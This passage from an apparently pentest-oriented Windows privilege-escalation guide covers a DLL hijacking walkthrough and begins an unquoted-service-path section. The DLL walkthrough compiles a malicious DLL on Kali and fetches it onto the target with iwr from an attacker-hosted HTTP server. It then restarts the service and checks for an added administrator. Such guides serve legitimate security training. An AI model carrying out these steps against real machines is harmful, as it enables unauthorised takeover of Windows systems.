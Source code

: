 ```bash
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Compiling on kali:

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Transfer to Windows:

```bash
python3 -m http.server 8080

cd Documents
iwr -uri http://$KALI_IP/myDLL.dll -Outfile myDLL.dll
```

Restarting the service:

```bash
Restart-Service BetaService
```

New user creation check:

```bash
net localgroup administrators
```

## Unquoted Service Paths

If the path of an executable file contains one or more spaces and is not enclosed in quotes, then it could be used to escalate privileges.
This type of attack is mostly exploited when you have write permissions in the folder related to the executable file but you cannot modify the file itself.

When a process is started, the **CreateProcess** function is used. If the path string contains spaces, it can be interpreted in various ways:

```text
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

### 1. Search for vulnerable services

#### Manual approach
